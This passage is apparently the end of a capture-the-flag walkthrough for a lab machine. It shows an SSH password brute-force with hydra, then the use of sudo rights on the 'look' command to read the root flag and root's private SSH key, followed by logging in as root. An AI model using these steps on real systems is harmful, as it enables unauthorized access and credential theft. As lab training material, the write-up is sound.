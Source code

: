 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736412096642/c4ce2861-7a79-4bba-b022-7a3fd10398f9.png align="left")

We now have the `.passwords` file, which contains a list of passwords. I copied them to my host machine to brute-force the `think` user's SSH login.

```bash
hydra -l think -P passwords.txt 10.10.73.36 ssh
```

* Password Found: `think-fake-password`
    

I SSHed into the `think` user and retrieved the `user.txt` flag. Next, get the root shell.

## Getting the Root Shell

This step was straightforward. The `think` user can only run the `look` command with `sudo`.

```bash
sudo -l
```

I searched for `look` on [GTFOBins](https://gtfobins.github.io/) to check for privilege escalation options.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736412115849/76bd34fc-1c78-4d7c-8f12-29341d261b33.png align="left")

There are two ways to proceed: first, directly access the flag:

```bash
LFILE=/root/root.txt
sudo look '' "$LFILE"
```

Alternatively, copy the root's SSH private key to the host machine and SSH into the target as root.

```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

Copy the private key to the host machine as `id_rsa` and run:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@lookup.thm
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736412138449/148675c4-870b-43be-87a1-3264f1150025.png align="left")

**Target PWNED!**

---

Thanks for reading! I hope you learnt something new. This is my first CTF walkthrough write-up. You can check out my blog [FlareXes](https://flarexes.com/) for more cybersecurity, programming, Linux, privacy, and automation content.